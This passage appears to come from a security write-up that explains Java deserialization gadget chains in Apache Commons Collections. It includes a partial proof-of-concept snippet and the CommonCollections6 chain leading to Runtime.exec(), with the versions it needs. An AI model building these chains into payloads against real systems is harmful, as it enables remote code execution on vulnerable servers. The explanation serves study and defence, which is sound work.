 So here comes the Poc(partial):
```java
...
final Map innerMap = new HashMap();  
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);  
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");  
BadAttributeValueExpException val = new BadAttributeValueExpException(null);  
Field valfield = val.getClass().getDeclaredField("val");  
      Reflections.setAccessible(valfield);  
valfield.set(val, entry);
...
```

End.

### CommonCollections6 jdk1.8 1.7


> [!NOTE] pre-requirements
> JDK1.7 or 1.8, reproduce successful on both
> commons-collections:commons-collections:3.2.1


```java
//Gadget chain:
	java.io.ObjectInputStream.readObject()
		java.util.HashSet.readObject()
			java.util.HashMap.put()
			java.util.HashMap.hash()
				org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
				org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
					org.apache.commons.collections.map.LazyMap.get()
						org.apache.commons.collections.functors.ChainedTransformer.transform()
						org.apache.commons.collections.functors.InvokerTransformer.transform()
						java.lang.reflect.Method.invoke()
							java.lang.Runtime.exec()
```

In general, `TiedMapEntry`'s `hashCode()` method would call `map.get(key)` and make a flaw for `LazyMap`. `HashMap`'s `readObject()` calls `hashCode()` of key to calculate hash, which makes sense for the exploitation above.

Firstly, see `HashMap`'s `readObject()`:
```java
private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
  ...
  for (int i = 0; i < mappings; i++) {  
	    @SuppressWarnings("unchecked")  
	        K key = (K) s.readObject();  
	    @SuppressWarnings("unchecked")  
	        V value = (V) s.readObject();  
	    putVal(hash(key), key, value, false, false);  
	}
	...
    
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)
